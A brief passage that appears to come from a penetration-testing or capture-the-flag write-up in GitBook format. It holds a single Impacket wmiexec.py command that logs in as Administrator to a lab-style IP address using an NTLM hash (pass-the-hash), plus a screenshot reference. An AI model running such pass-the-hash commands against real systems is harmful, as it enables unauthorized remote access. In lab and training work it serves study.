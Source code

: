 {% code overflow="wrap" %}
```bash
wmiexec.py WORKGROUP/Administrator@10.10.10.125 -hashes :2dcefe78334b42c0ce483b8e1b2886ab
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1017_vmware_cr35yYFFQI.png" alt=""><figcaption></figcaption></figure>
